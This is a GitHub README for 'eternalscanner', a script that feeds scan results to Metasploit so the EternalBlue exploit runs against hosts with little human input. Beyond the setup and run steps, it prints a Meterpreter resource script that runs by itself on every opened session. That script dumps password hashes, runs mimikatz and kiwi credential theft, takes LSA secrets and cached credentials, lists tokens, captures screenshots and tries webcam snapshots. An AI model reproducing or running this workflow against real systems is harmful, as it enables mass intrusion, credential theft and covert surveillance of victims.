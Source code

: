 [![forthebadge](https://forthebadge.com/images/badges/built-with-love.svg)](https://forthebadge.com)

## Table of content
- [About](#about) 
- [Requirements](#requirements)
- [Usage](#usage)
- [License](#license)
- [Contact Me](#contact-me)
- [Donate Me](#donate-me)

## About
The **eternalscanner** repo is made for educational purposes only. It uses `eternal_scanner` tool from [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) repo and parses the output from it to `Metasploit` to make the eternalblue exploit somehow *autonomously*.

## Requirements
- The **SUDO** power
- Requirements for [*Eternal_Scanner*](https://github.com/peterpt/eternal_scanner) Tool 
    - netcat
    - masscan
    - metasploit-framework
    - wget (To Update Eternal Scanner Directly from github)
    - pip (for alternative install of python modules)
    - python-crypto (Dependency for Eternal Romance check)
    - python-impacket (Dependency for Eternal Romance check)
    - python-pyasn1-modules (Dependency for Eternal Romance check)

## Usage
[![forthebadge](https://forthebadge.com/images/badges/oooo-kill-em.svg)](https://forthebadge.com)
- $ `git clone git@github.com:nsa/eternalblue-scanner.git && cd eternalblue-scanner`
- $ `chmod +x eternalbash`
- $ `sudo bash eternalbash`

If any sessions were opened this scripts automatically runs the following **meterpreter** commands from the *`assets/nsa.rc`* file. If you don't want to use following commands, you can just simply change the commands from that **`nsa.rc`** file.

```
run post/windows/manage/priv_migrate
hashdump
load kiwi
creds_all
run post/windows/gather/lsa_secrets
run post/windows/gather/cachedump
load incognito
list_tokens -u
screenshot
webcam_list
webcan_snap -v false
load mimikatz
kerberos
background
```


## License
```
MIT License

Copyright (c) 2018 Mustafa Çalap

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

### Contact Me
If you have any questions about this repo, you may create an issue or just hit me that questions on twitter. <br>
Author: **Mustafa ÇALAP** <br>
Website: [**calap.co**](https://calap.co) <br>
Twitter: [**mustafacalap**](https://twitter.com/mustafacalap)

### Donate Me
[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
- Bitcoin : 1MUSTkECBR1yr6Jbd5QjT9EXJXGgDaZieJ <br />
<img src="https://rlv.zcache.com/bitcoin_accepted_here_sticker-r148616b487084a369d4c15bf39055043_v9i40_8byvr_324.jpg" width="200px" height="200px">[![image](https://blog.calap.co/wp-content/uploads/2017/11/1MUST.png)](https://blog.calap.co/destek-olun)